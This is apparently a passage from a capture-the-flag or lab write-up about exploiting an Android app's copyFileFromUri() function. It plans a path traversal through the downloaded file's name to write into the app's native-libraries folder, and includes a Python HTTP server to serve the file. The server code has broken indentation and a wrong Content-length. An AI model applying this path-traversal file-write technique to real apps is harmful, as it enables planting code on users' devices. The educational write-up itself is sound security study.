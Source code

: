 ## Abuse the `copyFileFromUri()`
The objective is trying to add a file to the `/native-libraries/` folder.
```java
        public final MutableLiveData<Uri> copyFileFromUri(Uri uri) {  
            Intrinsics.checkNotNullParameter(uri, "uri");  
            URL url = new URL(uri.toString());  
            File file = CopyUtil.DOWNLOADS_DIRECTORY;  
            String lastPathSegment = uri.getLastPathSegment();  
            if (lastPathSegment == null) {  
                lastPathSegment = "download.pdf";  
            }  
            File outFile = new File(file, lastPathSegment);  
            MutableLiveData liveData = new MutableLiveData();  
            BuildersKt__Builders_commonKt.launch$default(GlobalScope.INSTANCE, Dispatchers.getIO(), null, new CopyUtil$Companion$copyFileFromUri$1(outFile, url, liveData, null), 2, null);  
            return liveData;  
        }
```
Just wonder how if we can do a `path traversal` in the `lastPathSegment` variable.

### Create a Custom HTTP Response 
**Use python script to download PDF of any request from http port (http_server.py):**
```python
from http.server import BaseHTTPRequestHandler, HTTPServer  

class RequestHandler(BaseHTTPRequestHandler):
	def do_GET(self):
	# Specify the path to the PDF file
	pdf_path = "example.pdf"  

	try:
		# Open the PDF file in binary mode
		with open(pdf_path, "rb") as file:
			# Send response header
			self.send_response(200)
			self.send_header('Content-length', str(len(pdf_path)))
			self.end_headers()  

			# Write the content of the PDF file to the response
			self.wfile.write(file.read())  

	except FileNotFoundError:
		# If the file is not found, send a 404 response
		self.send_error(404, "File not found")  

def run(server_class=HTTPServer, handler_class=RequestHandler, port=8080):
	server_address = ('', port)
	httpd = server_class(server_address, handler_class)
	print(f"Server running on port {port}")
	httpd.serve_forever()
  
if __name__ == "__main__":
	run()
```
